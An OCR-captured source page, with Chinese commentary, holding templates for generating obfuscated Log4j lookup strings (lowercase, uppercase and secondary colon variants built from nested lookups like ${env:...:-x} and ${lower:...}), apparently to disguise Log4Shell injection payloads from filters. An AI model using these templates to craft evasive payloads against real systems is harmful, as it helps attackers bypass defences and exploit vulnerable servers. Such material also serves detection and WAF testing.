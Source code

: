 ```
${:-:}
${{{random_lookup}}:{{random_variable}}:-:}
```
```
# Primary Obfuscated Lowercase Template
{{lowercase}}
${::-{{lowercase}}}
${lower:{{lowercase}}}
${lower:{{uppercase}}}
${k8s:{{random_variable}}:-{{lowercase}}}
${env:{{random_variable}}:-{{lowercase}}}
${ctx:{{random_variable}}:-{{lowercase}}}
${main:{{main_argument_key}}:-{{lowercase}}}
${main:{{random_variable}}:-{{lowercase}}}
${map:{{random_variable}}:-{{lowercase}}}
${sd:{{random_variable}}:-{{lowercase}}}
${sys:{{random_variable}}:-{{lowercase}}}
${web:{{random_variable}}:-{{lowercase}}}
${docker:{{random_variable}}:-{{lowercase}}}
${event:{{random_variable}}:-{{lowercase}}}
${log4j:{{random_variable}}:-{{lowercase}}}
${marker:{{random_variable}}:-{{lowercase}}}
${spring:{{random_variable}}:-{{lowercase}}}
${:-{{lowercase}}}
${{{random_lookup}}:{{random_variable}}:-{{lowercase}}}
```
```
# Primary Obfuscated Uppercase Template
{{uppercase}}
${::-{{uppercase}}}
${k8s:{{random_variable}}:-{{uppercase}}}
${env:{{random_variable}}:-{{uppercase}}}
${ctx:{{random_variable}}:-{{uppercase}}}
${main:{{main_argument_key}}:-{{uppercase}}}
${main:{{random_variable}}:-{{uppercase}}}
${map:{{random_variable}}:-{{uppercase}}}
${sd:{{random_variable}}:-{{uppercase}}}
${sys:{{random_variable}}:-{{uppercase}}}
${web:{{random_variable}}:-{{uppercase}}}
${docker:{{random_variable}}:-{{uppercase}}}
${event:{{random_variable}}:-{{uppercase}}}
${log4j:{{random_variable}}:-{{uppercase}}}
${marker:{{random_variable}}:-{{uppercase}}}
${spring:{{random_variable}}:-{{uppercase}}}
${upper:{{uppercase}}}
${upper:{{lowercase}}}
${:-{{uppercase}}}
${{{random_lookup}}:{{random_variable}}:-{{uppercase}}}
```
模板中出现了大小写字母，随机变量名，Main Arguments Lookup的键的索引形式，不存在的Lookup的占位符。

下面是二次混淆的模板：
```
# Secondary Obfuscated Colon Template
:
${::-:}
${{{l_lookup}}{{o_lookup}}{{w_lookup}}{{e_lookup}}{{r_lookup}}::}
${{{k_lookup}}{{8_lookup}}{{s_lookup}}:{{random_variable}}:-:}
${{{e_lookup}}{{n_lookup}}{{v_lookup}}:{{random_variable}}:-:}
${{{c_lookup}}{{t_lookup}}{{x_lookup}}:{{random_variable}}:-:}
${{{m_lookup}}{{a_lookup}}{{i_lookup}}{{n_lookup}}:{{main_argument_key}}:-:}
${{{m_lookup}}{{a_lookup}}{{i_lookup}}{{n_lookup}}:{{random_variable}}:-:}
${{{m_lookup}}{{a_lookup}}{{p_lookup}}:{{random_variable}}:-:}
${{{s_lookup}}{{d_lookup}}:{{random_variable}}:-:}
```